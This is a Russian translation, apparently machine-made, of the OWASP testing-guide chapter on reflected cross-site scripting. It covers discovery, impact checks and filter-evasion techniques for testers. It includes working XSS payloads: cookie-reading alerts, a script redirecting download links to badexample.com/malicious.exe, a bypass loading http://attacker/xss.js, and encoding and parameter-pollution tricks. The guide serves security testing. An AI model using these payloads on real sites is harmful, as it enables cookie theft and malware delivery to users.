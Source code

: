 # Тестирование для отраженного кросс-сайта

| ID |
| ------------- |
| WSTG-INPV-01 |

## Резюме

Отраженный [Cross-site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) происходят, когда злоумышленник вводит исполняемый код браузера в один HTTP-ответ. Инъекционная атака не сохраняется в самом приложении; оно непостоянно и влияет только на пользователей, которые открывают злонамеренно созданную ссылку или стороннюю веб-страницу. Строка атаки включена как часть созданных параметров URI или HTTP, неправильно обработана приложением и возвращена жертве.

Отраженные XSS являются наиболее частым типом XSS-атак, встречающихся в дикой природе. Отраженные атаки XSS также известны как непостоянные атаки XSS, и, поскольку полезная нагрузка атаки доставляется и выполняется с помощью одного запроса и ответа, они также называются XSS первого порядка или типа 1

Когда веб-приложение уязвимо для этого типа атаки, оно передает неподтвержденный ввод, отправленный через запросы, обратно клиенту. Общий способ действия атаки включает этап проектирования, в котором злоумышленник создает и тестирует нарушающий URI, шаг социальной инженерии, в котором она убеждает своих жертв загрузить этот URI в своих браузерах, и возможное выполнение кода оскорбления с использованием браузера жертвы.

Обычно код злоумышленника пишется на языке JavaScript, но также используются другие языки сценариев, например,.ActionScript и VBScript. Атакующие обычно используют эти уязвимости для установки регистраторов ключей, кражи файлов cookie жертв, кражи буфера обмена и изменения содержимого страницы (например,., скачать ссылки).

Одной из основных трудностей в предотвращении уязвимостей XSS является правильное кодирование символов. В некоторых случаях веб-сервер или веб-приложение не могли фильтровать некоторые кодировки символов, поэтому, например, веб-приложение может отфильтровывать `<script> `, но не может фильтровать`%3cscript%3e`, который просто включает другая кодировка тегов.

## Цели теста

- Определите переменные, которые отражены в ответах.
- Оцените входные данные, которые они принимают, и кодировку, которая применяется при возврате (если есть).

## Как проверить

### Тестирование черного ящика

Тест черного ящика будет включать как минимум три этапа:

#### Обнаружение векторов ввода

Обнаружение входных векторов. Для каждой веб-страницы тестер должен определить все пользовательские переменные веб-приложения и способы их ввода. Это включает в себя скрытые или неочевидные входы, такие как параметры HTTP, данные POST, значения полей скрытой формы и предварительно определенные значения радио или выбора. Обычно в браузере используются редакторы HTML или веб-прокси для просмотра этих скрытых переменных. Смотрите пример ниже.

#### Анализировать входные векторы

Проанализируйте каждый входной вектор, чтобы обнаружить потенциальные уязвимости. Чтобы обнаружить уязвимость XSS, тестер обычно использует специально созданные входные данные с каждым входным вектором. Такие входные данные обычно безвредны, но вызывают ответы от веб-браузера, которые проявляют уязвимость. Тестирование данных может быть сгенерировано с помощью размыкателя веб-приложений, автоматического предварительно определенного списка известных строк атаки или вручную.
  Некоторым примером таких входных данных являются следующие:

- `<script>alert(123)</script>`
- `"><script>alert(document.cookie)</script>`

Полный список потенциальных тестовых строк см. В [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

#### Проверьте Воздействие

Для каждого ввода теста, предпринятого на предыдущем этапе, тестер проанализирует результат и определит, представляет ли он уязвимость, которая реально влияет на безопасность веб-приложения. Это требует изучения полученной веб-страницы HTML и поиска тестовых данных. После обнаружения тестер идентифицирует любые специальные символы, которые не были должным образом закодированы, заменены или отфильтрованы. Набор уязвимых нефильтрованных специальных символов будет зависеть от контекста этого раздела HTML

В идеале все специальные символы HTML будут заменены объектами HTML. Ключевые объекты HTML для идентификации:

- `>` (greater than)
- `<` (less than)
- `&` (ampersand)
- `'` (apostrophe or single quote)
- `"` (double quote)

Однако полный список объектов определяется спецификациями HTML и XML. [Wikipedia has a complete reference](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references).

Wв контексте действия HTML или кода JavaScript потребуется экранировать, кодировать, заменять или отфильтровать другой набор специальных символов. Эти символы включают в себя:

- `\n` (new line)
- `\r` (carriage return)
- `'` (apostrophe or single quote)
- `"` (double quote)
- `\` (backslash)
- `\uXXXX` (unicode values)

Для более полной ссылки см [Mozilla JavaScript guide](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Values,_variables,_and_literals#Using_special_characters_in_strings).

#### Пример 1

Например, рассмотрим сайт с приветственным уведомлением `Welcome %username%` и ссылкой для скачивания.

![XSS Example 1](images/XSS_Example1.png)\
*Figure 4.7.1-1: XSS Example 1*

Тестер должен подозревать, что каждая точка ввода данных может привести к атаке XSS. Чтобы проанализировать это, тестер будет играть с пользовательской переменной и попытаться вызвать уязвимость.

Давайте попробуем нажать на следующую ссылку и посмотрим, что произойдет:

```text
http://example.com/index.php?user=<script>alert(123)</script>
```

Если дезинфекция не применяется, это приведет к следующему всплывающему сообщению:

![Alert](images/Alert.png)\
*Figure 4.7.1-2: XSS Example 1*

Это указывает на то, что существует уязвимость XSS, и кажется, что тестер может выполнить код по своему выбору в любом браузере, если он нажимает на ссылку тестера.

#### Пример 2

Давайте попробуем другой кусок кода (ссылка) :

```text
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```

Это производит следующее поведение:

![XSS Example 2](images/XSS_Example2.png)\
*Figure 4.7.1-3: XSS Example 2*

Это заставит пользователя, щелкнув по ссылке, предоставленной тестером, загрузить файл `malicious.exe` с сайта, который он контролирует.

### Обход фильтров XSS

Отраженные межсайтовые атаки сценариев предотвращаются, поскольку веб-приложение дезинфицирует ввод, брандмауэр веб-приложения блокирует вредоносный ввод или с помощью механизмов, встроенных в современные веб-браузеры. Тестер должен проверить наличие уязвимостей, предполагая, что веб-браузеры не предотвратят атаку. Браузеры могут быть устаревшими или иметь отключенные встроенные функции безопасности. Точно так же брандмауэры веб-приложений не гарантированно распознают новые, неизвестные атаки. Злоумышленник может создать строку атаки, которая не распознается брандмауэром веб-приложения.

Таким образом, большая часть профилактики XSS должна зависеть от дезинфекции веб-приложения ненадежным пользовательским вводом. Разработчикам доступно несколько механизмов для дезинфекции, таких как возврат ошибки, удаление, кодирование или замена недопустимого ввода. Средства, с помощью которых приложение обнаруживает и исправляет неверный ввод, являются еще одним основным недостатком в предотвращении XSS. Список отказов может не включать все возможные строки атаки, список разрешений может быть чрезмерно разрешающим, дезинфекция может потерпеть неудачу, или тип ввода может быть неправильно доверен и оставаться несанитизованным. Все это позволяет злоумышленникам обойти фильтры XSS.

The [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) документы общих испытаний на уклонение от фильтра.

#### Пример 3: Значение атрибута тега

Поскольку эти фильтры основаны на списке запретов, они не могут блокировать все типы выражений. Фактически, есть случаи, когда эксплойт XSS может выполняться без использования тегов <script> `и даже без использования символов, таких как` <` и `> `, которые обычно фильтруются.

Например, веб-приложение может использовать значение ввода пользователя для заполнения атрибута, как показано в следующем коде:

```html
<input type="text" name="state" value="INPUT_FROM_USER">
```

Затем злоумышленник может отправить следующий код:

```text
" onfocus="alert(document.cookie)
```

#### Пример 4: Другой синтаксис или кодирование

В некоторых случаях возможно, что фильтры на основе подписи могут быть просто побеждены путем запутывания атаки. Как правило, вы можете сделать это путем вставки неожиданных изменений в синтаксис или в сопряжение. Эти изменения допускаются браузерами как действительный HTML при возврате кода, и все же они также могут быть приняты фильтром.

Следуя некоторым примерам:

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### Пример 5: Обход нерекурсивной фильтрации

Иногда дезинфекция применяется только один раз, и она не выполняется рекурсивно. В этом случае злоумышленник может победить фильтр, отправив строку, содержащую несколько попыток, например, эту :

```text
<scr<script>ipt>alert(document.cookie)</script>
```

#### Пример 6: Включая внешний скрипт

Теперь предположим, что разработчики целевого сайта внедрили следующий код для защиты ввода от включения внешнего скрипта:

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Разделение вышеуказанного регулярного выражения:

1. Проверьте для `<script`
2. Проверьте на "" (белое пространство)
3. Любой символ, кроме символа `> ` для одного или нескольких вхождений
4. Проверьте на `src`

Это полезно для фильтрации выражений типа `<script src="http://attacker/xss.js"></ script> `, что является обычной атакой. Но в этом случае можно обойти дезинфекцию, используя символ `> ` в атрибуте между script и src, например:

```text
http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

Это будет использовать отраженную уязвимость скриптов кросс-сайтов, показанную ранее, выполняя код JavaScript, сохраненный на веб-сервере злоумышленника, как если бы он был создан с веб-сайта жертвы, `http: // example /`.

#### Пример 7: Загрязнение параметров HTTP (HPP)

Другим методом обхода фильтров является загрязнение параметров HTTP, этот метод был впервые представлен Стефано ди Паола и Лукой Кареттони в 2009 году на конференции OWASP в Польше. См. [Тестирование на загрязнение параметров HTTP](04-Testing_for_HTTP_Parameter_Pollution.md) для получения дополнительной информации. Эта техника уклонения состоит из разделения вектора атаки между несколькими параметрами, имеющими одно и то же имя. Манипулирование значением каждого параметра зависит от того, как каждая веб-технология анализирует эти параметры, поэтому этот тип уклонения не всегда возможен. Если тестируемая среда объединяет значения всех параметров с одним и тем же именем, то злоумышленник может использовать эту технику, чтобы обойти механизмы безопасности на основе шаблонов.
Регулярная атака:

```text
http://example/page.php?param=<script>[...]</script>
```

Атака с использованием HPP:

```text
http://example/page.php?param=<script&param=>[...]</&param=script>
```

Смотрите [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) для более подробного списка методов уклонения от фильтров. Наконец, анализ ответов может стать сложным. Простой способ сделать это - использовать код, который открывает диалоговое окно, как в нашем примере. Это обычно указывает на то, что злоумышленник может выполнить произвольный JavaScript по своему выбору в браузерах посетителей.

### Тестирование серой коробки

Тестирование серого ящика похоже на тестирование черного ящика. В тестировании «серой коробки» у мастера-ручки есть частичные знания о применении. В этом случае информация о пользовательском вводе, элементах управления проверкой ввода и о том, как пользовательский ввод возвращается пользователю, может быть известна настройщику.

Если доступен исходный код (тестирование в белом ящике), все переменные, полученные от пользователей, должны быть проанализированы. Кроме того, тестер должен проанализировать любые процедуры дезинфекции, чтобы решить, можно ли их обойти.

## Tools

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/) helps you encode arbitrary texts to and from 65 kinds of character sets that you can use in your customized payloads.
- [Hackvertor](https://hackvertor.co.uk/public) is an online tool which allows many types of encoding and obfuscation of JavaScript (or any string input).
- [XSS-Proxy](http://xss-proxy.sourceforge.net/) is an advanced Cross-Site-Scripting (XSS) attack tool.
- [ratproxy](https://code.google.com/archive/p/ratproxy/) is a semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- [Burp Proxy](https://portswigger.net/burp/) is an interactive HTTP/S proxy server for attacking and testing web applications.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org) is an interactive HTTP/S proxy server for attacking and testing web applications with a built-in scanner.

## References

### OWASP Resources

- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Books

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Whitepapers

- [CERT - Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/asset_files/WhitePaper/2000_019_001_496188.pdf)
- [cgisecurity.com - The Cross Site Scripting FAQ](https://www.cgisecurity.com/xss-faq.html)
- [G.Ollmann - HTML Code Injection and Cross-site scripting](http://www.technicalinfo.net/papers/CSS.html)
- [S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the Web browser threat](https://www.techzoom.net/Publications/Insecurity-Iceberg)
